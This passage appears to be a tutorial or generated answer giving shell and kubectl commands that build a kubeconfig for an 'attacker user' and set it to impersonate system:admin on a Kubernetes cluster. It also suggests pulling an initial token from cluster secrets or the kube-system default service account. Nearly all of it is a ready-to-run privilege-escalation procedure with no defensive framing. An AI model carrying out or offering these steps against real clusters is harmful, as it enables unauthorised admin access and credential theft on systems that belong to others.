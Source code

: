 Now, create a new context with impersonation:

```bash
cat <<EOF > impersonation-config.yaml
apiVersion: v1
kind: Config
preferences: {}

clusters:
- cluster:
    server: <YOUR_API_SERVER_URL>  # Replace with your cluster's API server URL
    certificate-authority-data: <YOUR_CERTIFICATE_AUTHORITY_DATA> #Replace with your cluster's CA data. Optional, can omit if you can't find this.
  name: impersonation-cluster

users:
- name: impersonation-user
  user:
    token: <A_VALID_TOKEN_FOR_THE_ATTACKER_USER>  #Replace with the token for the attacker user.

contexts:
- context:
    cluster: impersonation-cluster
    user: impersonation-user
    namespace: default
  name: impersonation-context

current-context: impersonation-context
EOF
```

```bash
KUBECONFIG=impersonation-config.yaml kubectl config set-credentials impersonation-user --token=<A_VALID_TOKEN_FOR_THE_ATTACKER_USER>
KUBECONFIG=impersonation-config.yaml kubectl config set-cluster impersonation-cluster --server=<YOUR_API_SERVER_URL> --certificate-authority-data=<YOUR_CERTIFICATE_AUTHORITY_DATA> --embed-certs=true

KUBECONFIG=impersonation-config.yaml kubectl config set-context impersonation-context --cluster=impersonation-cluster --user=impersonation-user --namespace=default
KUBECONFIG=impersonation-config.yaml kubectl config use-context impersonation-context

KUBECONFIG=impersonation-config.yaml kubectl config set-credentials impersonation-user --as=system:admin

export KUBECONFIG=impersonation-config.yaml
```

**Explanation:**
*   The first block creates a `impersonation-config.yaml` file. **Replace `<YOUR_API_SERVER_URL>` and `<YOUR_CERTIFICATE_AUTHORITY_DATA>` with your cluster's API server URL and certificate authority data, respectively.** The cluster details can be found in your original `kubectl config view` output.  The `<A_VALID_TOKEN_FOR_THE_ATTACKER_USER>` is needed to initially authenticate and make subsequent impersonation requests. The `kubectl get secrets` or `kubectl describe serviceaccount default -n kube-system` can be helpful for finding an initial token.
*   The `kubectl config` commands configure the new kubeconfig, including setting the cluster, user, and context.
*   `kubectl config set-credentials impersonation-user --as=system:admin` tells `kubectl` to *always* add the `Impersonate-User: system:admin` header when using this context.
*   Finally, `export KUBECONFIG=impersonation-config.yaml` sets the `KUBECONFIG` environment variable, making `kubectl` use the new configuration.
